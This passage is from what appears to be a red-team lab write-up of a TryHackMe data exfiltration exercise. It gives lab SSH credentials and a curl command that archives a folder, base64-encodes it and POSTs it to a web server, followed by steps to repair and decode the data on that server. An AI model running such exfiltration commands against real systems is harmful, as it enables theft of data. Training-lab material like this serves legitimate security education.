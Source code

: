 Now from the Jump machine/Attacker_Machine, connect to the victim1.thm.com machine via SSH to exfiltrate the required data over the HTTP protocol. Use the following SSH credentials: `thm:tryhackme`.

`thm@jump-box:~$ ssh thm@victim1.thm.com`

The goal is to transfer the folder's content, stored in `/home/thm/task6`, to another machine over the HTTP protocol.

Now that we have our data, we will be using the `curl` command to send an HTTP POST request with the content of the secret folder as follows,

`thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php`

We used the curl command with `--data` argument to send a POST request via the `file` parameter. Note that we created an archived file of the secret folder using the `tar` command. We also converted the output of the tar command into `base64` representation.

Next, from the `victim1 or JumpBox machine`, let's log in to the webserver, `web.thm.com`, and check the `/tmp` directory if we have successfully transferred the required data. Use the following SSH credentials in order to login into the web: `thm:tryhackme`.

![App Screenshot](https://github.com/rohit00712/Red-Team/blob/main/Post%20Compromise/data_Exfiltration/images/14.PNG)

Nice! We have received the data, but if you look closely at the `http.bs64` file, you can see it is broken `base64`. This happens due to the URL encoding over the HTTP. The `+` symbol has been replaced with empty spaces, so let's fix it using the `sed` command as follows,

`thm@web:~$ sudo sed -i 's/ /+/g' /tmp/http.bs64`

Using the `sed` command, we replaced the spaces with + characters to make it a valid base64 string!

`thm@web:~$ cat /tmp/http.bs64 | base64 -d | tar xvfz -`

## HTTPS Communications

In the previous section, we showed how to perform Data Exfiltration over the HTTP protocol which means all transmitted data is in cleartext. One of the benefits of HTTPS is encrypting the transmitted data using SSL keys stored on a server.

If you apply the same technique we showed previously on a web server with SSL enabled, then we can see that all transmitted data will be encrypted. We have set up our private HTTPS server to show what the transmitted data looks like. If you are interested in setting up your own HTTPS server, we suggest visiting the [Digital Ocean website](https://www.digitalocean.com/community/tutorials/how-to-create-a-self-signed-ssl-certificate-for-apache-in-ubuntu-18-04).

## HTTP Tunneling
